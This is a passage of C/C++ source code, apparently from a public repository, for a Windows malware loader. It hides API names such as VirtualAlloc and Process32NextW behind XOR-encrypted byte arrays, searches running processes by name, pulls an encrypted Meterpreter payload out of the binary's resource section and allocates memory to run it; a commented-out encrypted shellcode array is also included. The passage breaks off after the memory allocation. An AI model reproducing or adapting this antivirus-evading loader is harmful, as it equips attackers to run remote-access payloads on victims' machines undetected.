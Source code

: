 ```c
	unsigned char Process32NextWEncrypted[] = { 0x39, 0xC4, 0xA1, 0x40, 0x41, 0x7B, 0x99, 0x50, 0x52, 0xD1, 0xC6, 0xFC, 0x7E, 0x45, 0xAB };
	XOR(Process32NextWEncrypted, sizeof(Process32NextWEncrypted), key, key_len);
	auto const pProcess32NextW = reinterpret_cast<BOOL(WINAPI*)(HANDLE hSnapshot, LPPROCESSENTRY32 lppe)>(
		GetProcAddress(hKernel32, (LPCSTR)Process32NextWEncrypted)
		);
	while (pProcess32NextW(hSnapshot, &pe)) {
		if (lstrcmpW(pe.szExeFile, procname) == 0) {
			pid = pe.th32ProcessID;
			break;
		}
	}

	// Close the open handle; we don't need it anymore
	CloseHandle(hSnapshot);
	return pid;
}

int WinMain(HINSTANCE hInstance, HINSTANCE hpInstance, LPSTR nCmdLine, int iCmdShow) {


	DWORD oldprotect = 0;

	HRSRC res;
	HGLOBAL resHandle = NULL;
	unsigned char* shellcode;
	unsigned int shellcode_len;
	// Extract encrypted payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCEW(IDR_METERPRETER1), L"METERPRETER");
	resHandle = LoadResource(NULL, res);
	shellcode = (unsigned char*)LockResource(resHandle);
	shellcode_len = SizeofResource(NULL, res);

	//unsigned char shellcode[] = {0x95, 0xFE, 0x4D, 0xC7, 0xD4, 0xE0, 0x2A, 0x63, 0x60, 0x9F, 0xE2, 0xD5, 0x4B, 0x42, 0xF9, 0xD9, 0xCA, 0xF6, 0x12, 0x6B, 0x4E, 0x1B, 0x77, 0x84, 0xD3, 0xD0, 0x43, 0xD3, 0x10, 0xD2, 0x58, 0x9D, 0xE0, 0x87, 0x7F, 0xE2, 0xB7, 0x96, 0xB2, 0x49, 0x7F, 0x0D, 0x5E, 0x4B, 0x9D, 0xFF, 0x14, 0x77, 0x3A, 0xE1, 0x29, 0x62, 0x3F, 0xD6, 0x20, 0x52, 0xDC, 0x74, 0x47, 0xCA, 0x92, 0x7D, 0x3F, 0x53, 0x38, 0xF7, 0xBE, 0xF0, 0xBF, 0xD3, 0x9B, 0x59, 0xA1, 0x9D, 0x32, 0x0E, 0xE8, 0xC3, 0xE6, 0xE2, 0xDC, 0x58, 0xEA, 0x8B, 0xC5, 0x7E, 0xFC, 0x7F, 0xCA, 0x97, 0xE1, 0x24, 0xBA, 0xC5, 0x44, 0x40, 0x72, 0x66, 0x33, 0x52, 0x68, 0x66, 0x2D, 0x75, 0x6C, 0xF7, 0x23, 0x22, 0xEB, 0xAB, 0x2B, 0xCC, 0x0B, 0xC4, 0xE6, 0xB9, 0x55, 0xF6, 0x12, 0x79, 0x87, 0x12, 0x3D, 0x1F, 0xBE, 0xD9, 0xC9, 0x40, 0x30, 0x7A, 0xA6, 0x3E, 0x8C, 0xCC, 0xB8, 0xB4, 0xEF, 0x9B, 0x84, 0x2F, 0x40, 0x9F, 0x4B, 0x3E, 0xDF, 0xF7, 0x01, 0xFE, 0x97, 0x0D, 0x2E, 0x5F, 0xB6, 0xF6, 0x48, 0x57, 0x96, 0xFD, 0x56, 0xC2, 0x92, 0x6C, 0x9C, 0x35, 0x6E, 0x3E, 0xA7, 0xB9, 0xE4, 0xC0, 0xE3, 0x93, 0xBB, 0xFF, 0x23, 0x55, 0x79, 0x10, 0x27, 0x33, 0x9D, 0x02, 0xA2, 0x40, 0xAC, 0x9E, 0xC9, 0x4A, 0x7D, 0x76, 0x69, 0x35, 0x68, 0xD7, 0x14, 0x8F, 0xEB, 0xCF, 0x44, 0xE4, 0x96, 0x49, 0x93, 0x6B, 0x9E, 0x09, 0xEA, 0x63, 0x60, 0x9F, 0xA3, 0x84, 0x0A, 0x5A, 0x26, 0x05, 0x9D, 0xBF, 0x23, 0xB9, 0x6A, 0xE9, 0xCD, 0x5D, 0xDC, 0x1F, 0x37, 0x54, 0xB3, 0x7A, 0xCE, 0xE5, 0xCA, 0x8E, 0x4E, 0x36, 0x72, 0x63, 0x20, 0x01, 0xE0, 0x0F, 0x90, 0xBE, 0x7C, 0x8B, 0x23, 0xCB, 0x9C, 0x5D, 0xB3, 0xFE, 0x48, 0xFF, 0xBB, 0x54, 0x0E, 0xCF, 0x25, 0xE1, 0x93, 0xE5, 0x9C, 0x37, 0xB0, 0x49, 0x3A, 0xDB, 0x55, 0xED, 0xD8, 0xFC, 0x86, 0xD9, 0x1F, 0x0F};
	//unsigned int shellcode_len = sizeof(shellcode);

	void* exec_mem;
	unsigned char VirtualAllocEncrypted[] = { 0x3F, 0xDF, 0xBC, 0x57, 0x51, 0x69, 0x86, 0x22, 0x0C, 0xF3, 0xCC, 0xE7, 0x0A };
	XOR(VirtualAllocEncrypted, sizeof(VirtualAllocEncrypted), key, key_len);
	auto const pVirtualAlloc = reinterpret_cast<LPVOID(WINAPI*)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flAllocationType, DWORD flProtect)>(
		GetProcAddress(hKernel32, (LPCSTR)VirtualAllocEncrypted));
	exec_mem = pVirtualAlloc(0, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

```